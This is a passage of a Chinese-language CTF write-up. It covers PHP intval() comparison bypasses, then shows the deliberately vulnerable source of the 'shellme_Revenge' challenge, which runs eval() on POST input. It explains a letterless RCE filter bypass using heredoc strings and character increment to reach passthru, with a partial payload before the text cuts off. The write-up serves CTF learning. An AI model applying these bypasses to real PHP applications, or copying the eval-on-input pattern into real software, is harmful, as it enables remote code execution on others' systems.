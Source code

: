顺便写一下intval()数字比较的一些知识点：

- 可以用2进制、8进制、十六进制等等
  或者是利用小数点进行四舍五入
- intval获取变量整数值，失败返回0
   空的 array 返回 0，非空的 array 返回 1，可以数组绕过：num[]=00
- intval($num,0)：base为0，表示变量在遇上数字或正负符号才做转换，遇到非数字或字符串结束时以(\0)结束转换 ps：前提是弱类型比较
  那么可以使用科学计数法：4476e1

### shellme_Revenge

开篇一个phpinfo（原本的shellme因为一些失误操作，使得flag直接出现在phpinfo里，也就成了真正的签到题）

看cookie得到hint：?looklook，得到源码：

```php
<?php
error_reporting(0);
if ($_GET['looklook']){
    highlight_file(__FILE__);
}else{
    setcookie("hint", "?looklook", time()+3600);
}
if (isset($_POST['ctf_show'])) {
    $ctfshow = $_POST['ctf_show'];
    if (is_string($ctfshow) || strlen($ctfshow) <= 107) {
        if (!preg_match("/[!@#%^&*:'\"|`a-zA-BD-Z~\\\\]|[4-9]/",$ctfshow)){
            eval($ctfshow);
        }else{
            echo("fucccc hacker!!");
        }
    }
} else {

    phpinfo();
}
```

因为disable_function禁用了大部分的函数，并且正则过滤掉了很多东西，但留出了字母C、0123、还有一些基本的符号，
无字母数字rce无疑，由此可以自增获得所有字母，然后就是历时1天的尝试了，

第一个点是无引号定义字符串，这里是用官方文档的第三种方式<<<来定义

第二个点是自增，因为有了个C，可以从`C++ => D`而获得所有字母A-Z；

> 摘自官方文档：
>
> 在处理字符变量的算数运算时，PHP 沿袭了 Perl 的习惯，而非 C 的。例如，在 Perl 中 `$a = 'Z'; $a++;` 将把 `$a` 变成`'AA'`，而在 C 中，`a = 'Z'; a++;` 将把 `a` 变成 `'['`（`'Z'` 的 ASCII 值是 90，`'['` 的 ASCII 值是 91）。注意字符变量只能递增，不能递减，并且只支持纯字母（a-z 和 A-Z）。递增／递减其他字符变量则无效，原字符串没有变化。

这里直接用disable的漏网之鱼`passthru`进行命令执行

payload：用的时候要把注释内容删去，并且进行url编码

```php
$_=<<<_
C
_;
$__=<<<C
_
C;

$_++;$_++;
$_++;$_++;
$_++;$_++;$_++;$_++;$_++;$_++;$_++;$_++;$_++;$_++;$_++;$_++;$_++;$_++;$_++;$_++;$_++;$_++;$_++;$_++;$___=$_[1]; // A

$_0=$___; // a
```